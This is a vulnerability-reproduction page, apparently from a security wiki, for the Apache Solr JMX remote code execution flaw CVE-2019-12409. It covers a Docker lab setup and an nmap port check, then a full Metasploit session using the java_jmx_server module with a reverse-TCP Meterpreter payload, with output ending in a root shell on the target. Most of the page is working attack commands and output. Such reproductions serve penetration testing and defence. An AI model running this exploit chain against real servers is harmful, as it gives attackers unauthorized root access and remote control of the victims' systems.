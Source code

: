 ```yaml
---
title: Apache Solr JMX Service RCE CVE-2019-12409
---
```


# Apache Solr JMX Service RCE CVE-2019-12409

## Vulnerability Description
Java ManagementExtensions (JMX) is a Java technology that provides corresponding tools for managing and monitoring applications, system objects, devices (such as printers), and service-oriented networks. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 8.1.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 8.2.0</span>

## Environment construction
```shell
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

## Vulnerability reappears


Check whether the vulnerability port 18983 is open
```shell
nmap xxx.xxx.xxx.xxx -p 18983
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/98733fe0-bd66-40d2-95ff-322723fcf123.png)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ce0defa5-e90a-4885-bb1f-b1bbf8425b16.png)